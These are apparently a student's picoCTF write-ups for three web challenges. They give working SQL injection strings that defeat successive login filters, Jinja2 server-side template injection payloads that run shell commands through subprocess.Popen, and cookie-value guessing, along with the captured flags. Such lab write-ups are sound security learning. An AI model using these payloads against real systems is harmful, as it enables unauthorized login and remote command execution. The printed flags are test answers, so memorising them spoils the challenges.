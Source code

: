 # Web Gauntlet

Can you beat the filters?Log in as admin 
http://shape-facility.picoctf.net:56097/
http://shape-facility.picoctf.net:56097/filter.php

# Solution

At the start the login screen is just basically just like this


![Screenshot](./Screenshots/pasted_image_9.png)

While I enter the username and password to be admin and admin

```sql
SELECT * FROM users WHERE username='admin' AND password='admin'
```

This is the background output I get.
From this I am able to realize that if I know the correct username to be admin if I am able to comment out the rest of the things I will pass. 

### Round 1 soln:-

Hence I enter the following username

```sql
admin'--
```

The password I enter is `fraud`

### Round 2 soln:-

In this round I was given the following restrictions:-
`Round2: or and like = --`

Using this type of comment was no longer allowed so I just duckduckgoed how to find a way around this. I realised that we can just use `/*` to comment out multiple lines


```sql
admin' /*
```

and kept the same password. 

### Round 3 soln:-

Round 3 restriction `Round3: or and = like > < --`  For this round we can just use the termination statement for sql

```sql
admin';
```

## Round 4 soln:-

Round 4 restriction `Round 4:Round4: or and = like > < -- admin`
In this round we are not allowed to type `admin` anymore so basically we can use the concatenation and just try to solve

```sql
admi'||'n';
```

## Round 5 soln:-

The round 4 and round 5 have the same restrictions hence we don't need to make any changes and can solve using the same thing

```sql
admi'||'n';
```

## Flag:-

picoCTF{y0u_m4d3_1t_79a0ddc6}

## Resources:-

https://solutioncenter.apexsql.com/rules-of-sql-formatting-terminating-sql-statements-with-semicolons/



# SST1:-

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:62569/)!

## Solution

From the hint I was able to infer that we have to use Server Side Template Injection. 

The first step in Server Side Template Injection according to the below resource is to check which time of template engine is being used over here. 
The list of input is:-

```
- {{7*7}} (Jinja2)
- <%= 7*7 %> (ERB/Ruby)
- ${7*7} (Thymeleaf)
```

as only the first input worked I understood that the question is using Jinja2 template engine. 

In order to exploit this Jinja2 engine we can inject a command 
```jinja2
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This will give us the list of all classes loaded in the memory. 
`subprocess.Popen` is the class that will be used in order to execute commands. 
However in order to execute that class I have to find it's index number. 


![Screenshot](./Screenshots/pasted_image_10.png)

Through `ctrl + f` I was able to find it to be the 356th index and then I can execute any command I want. 

```Jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate() }}
```

The above command give us the list of files present. 
`# (b'__pycache__\napp.py\nflag\nrequirements.txt\n', None)`

From the above output we are able to infer that we are supposed to read this `requirements.txt`

Let us run the above command again.
```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate() }}
```

The output of this is:-

`# (b'picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}', None)`

## Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}

## Resources:-

https://medium.com/@vickemboi/server-side-template-injection-ssti-a-complete-beginners-guide-55f4a6bd9294
https://retherszu.github.io/vulnerabilities/web/server-side-template-injection/ssti-in-jinja2.html


# Cookies:-

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)

## Solution

After loading the website this is the screen we get 

![Screenshot](./Screenshots/pasted_image_11.png)

I also opened the cookies tab simultaneously to inspect what is going on over there. 

![Screenshot](./Screenshots/pasted_image_12.png)

Initially I thought of entering the `name` inside the search box in order to solve but since that didn't work I enter snickerdoodle. 

![Screenshot](./Screenshots/pasted_image_13.png)

This was the new output I got and the value of the cookie changed from -1 to 1. 

I kept putting in random values of the cookie. Then after some advise. I started putting values in ascending order like 1,2,3,4,5. When i reached 18 it gave me the flag.

## Flag

`picoCTF{3v3ry1_l0v3s_c00k135_064663be}`

